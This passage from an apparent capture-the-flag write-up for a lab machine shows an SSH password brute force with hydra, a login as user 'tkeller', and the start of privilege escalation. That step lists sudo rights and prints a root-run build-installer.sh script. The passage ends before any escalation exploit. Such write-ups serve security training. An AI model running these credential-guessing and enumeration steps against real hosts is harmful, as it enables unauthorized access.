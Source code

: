 We can find the list of combined usernames here. Let’s perform bruteforce again using above usernames.

    hydra -L users -p denjanjade122566 10.10.11.206 ssh

![](https://cdn-images-1.medium.com/max/2080/1*Ui4UMjnv08B4eGBPqXnxGA.png)

And we finally got the username which is called **tkeller**. Login using SSH.

![](https://cdn-images-1.medium.com/max/2000/1*p9fc7quxgTFXyW6_nPKZfQ.png)

Got the user.txt file.

![](https://cdn-images-1.medium.com/max/2000/1*HEEfaQSm1jXwIj9qxvDaNA.png)

## Privilege Escalation

Looking at the result of **sudo -l** command, we can see that the user tkeller can run command **/usr/local/sbin/build-installer.sh** using sudo permission without providing password.

![](https://cdn-images-1.medium.com/max/2292/1*eu5UBQY3jndFMbitJmRvCQ.png)

Let’s analyze what that command **build-installer.sh** contains.

    cat /usr/local/sbin/build-installer.sh
    
    #!/bin/bash
    if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
      /usr/bin/echo "No enough arguments supplied"
      exit 1;
    fi
    
    action=$1
    name=$2
    ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')
    
    if [[ -L $name ]];then
      /usr/bin/echo 'Symlinks are not allowed'
      exit 1;
    fi
    
    if [[ $action == 'build' ]]; then
      if [[ $ext == 'spec' ]] ; then
        /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
        /home/svc/.local/bin/pyinstaller $name
        /usr/bin/mv ./dist ./build /opt/shared
      else
        echo "Invalid file format"
        exit 1;
      fi
    elif [[ $action == 'make' ]]; then
      if [[ $ext == 'py' ]] ; then
        /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
        /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
       /usr/bin/mv ./dist ./build /opt/shared
      else
        echo "Invalid file format"
        exit 1;
      fi
    elif [[ $action == 'cleanup' ]]; then
      /usr/bin/rm -r ./build ./dist 2>/dev/null
      /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
      /usr/bin/rm /tmp/qreader* 2>/dev/null
    else
      /usr/bin/echo 'Invalid action'
      exit 1;
    fi